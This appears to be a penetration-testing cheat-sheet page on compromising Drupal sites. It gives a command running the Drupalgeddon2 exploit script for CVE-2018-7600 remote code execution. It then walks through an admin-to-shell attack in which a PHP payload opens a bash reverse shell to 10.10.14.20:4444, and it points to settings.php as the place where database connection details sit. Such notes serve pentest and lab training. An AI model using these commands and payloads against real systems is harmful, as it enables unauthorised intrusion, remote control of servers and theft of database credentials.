 ```yaml
---
title: Drupal
category: Software
order: 2
---
```


# Drupalgeddon (<7.58, <8.5.1, <8.46, <8.3.9) - CVE-2018-7600

All version of drupal lower than 7.58 are vulnerable to RCE.

```
ruby drupalgeddon2.rb http://<ip>/
```
* [https://github.com/dreadlocked/Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)

# From Admin to Reverse Shell

Firstly we need to enable `PHP filter` on Modules tab.

![](/hackingnotes/images/durpal_rce_1.png)

And go to Content -> +Add Content -> Article, select **PHP code** as Text Format and finally introduce the reverse shell on the body.

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444>&1'"); ?>
```

![](/hackingnotes/images/durpal_rce_2.png)

Finally clicking Preview button a reverse shell is spawned to our listener.

![](/hackingnotes/images/durpal_rce_3.png)

# Config files

## Database Connection

```
$DRUPAL/sites/default/settings.php
```
